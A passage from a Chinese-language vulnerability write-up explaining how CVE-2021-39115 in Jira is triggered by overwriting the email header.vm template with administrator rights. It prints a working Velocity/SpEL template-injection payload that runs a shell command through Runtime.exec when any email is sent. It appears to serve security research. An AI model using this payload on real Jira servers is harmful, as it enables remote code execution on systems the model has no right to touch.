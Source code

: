 [![](assets/1708149766-0887d42250c0e7fd7a6aa3062d45692b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515172918-7e8328e6-d431-1.png)

### 2、如何从邮件 body 触发模版注入漏洞

这个漏洞的本质就是`CVE-2021-39115`，有兴趣的可以去看看，漏洞的成因是使用 Jira Administrator 权限去覆盖 vm 文件，并在 vm 文件当中填入 payload 完成漏洞的触发。

文件路径在`/jira/atlassian-jira-software-8.2.2-standalone/atlassian-jira/WEB-INF/classes/templates/email/html/includes/header.vm`，因为邮件服务的模版里面包含了这个文件，所以我们在文件中加入`CVE-2021-39115`的 poc 即可。然后随便发一封邮件，就可以触发 poc。

```plain
#set($SpelExpressionParser = $jirautils.loadComponent('org.springframework.expression.spel.standard.SpelExpressionParser',$i18n.getClass()))
    $SpelExpressionParser.parseRaw("T(java.lang.Runtime).getRuntime().exec('touch /tmp/success4')").getValue()
```

[![](assets/1708149766-414045c361c2e76f98892b01fe53d81a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515172933-87b23f56-d431-1.png)

[![](assets/1708149766-f5c895af530b9d6af3104846ae40ca98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515172953-936e0d02-d431-1.png)

